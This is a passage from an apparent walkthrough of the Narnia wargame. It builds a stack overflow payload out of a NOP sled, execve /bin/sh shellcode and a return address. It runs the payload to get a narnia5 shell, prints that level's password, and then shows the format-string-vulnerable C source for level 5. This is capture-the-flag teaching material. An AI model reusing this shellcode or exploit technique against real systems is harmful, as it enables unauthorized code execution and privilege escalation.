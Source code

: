 As we can see, the nop sled starts at around `0xffffd620` and goes up to `0xffffd710`.
We can choose a safe place in the middle, let's say `0xffffd6a0`, and set EIP to it.

`0xffffd6a0` - > `'\xa0\xd6\xff\xff`

The final payload will look like this:
```ruby
$(echo -n -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\x31\xd2\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\xa0\xd6\xff\xff")
```

let's run the payload.
```ruby
narnia4@gibson:/narnia$ ./narnia4 $(echo -n -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\x31\xd2\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\xa0\xd6\xff\xff")
$ whoami
narnia5
$ cat /etc/narnia_pass/narnia5
1oCoEkRJSB
```

Great, it works.

## Level 5

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
  
int main(int argc, char **argv){
int i = 1;
char buffer[64];
  
snprintf(buffer, sizeof buffer, argv[1]);
buffer[sizeof (buffer) - 1] = 0;
printf("Change i's value from 1 -> 500. ");
  
if(i==500){
printf("GOOD\n");
        setreuid(geteuid(),geteuid());
system("/bin/sh");
}
  
printf("No way...let me give you a hint!\n");
printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
printf ("i = %d (%p)\n", i, &i);
```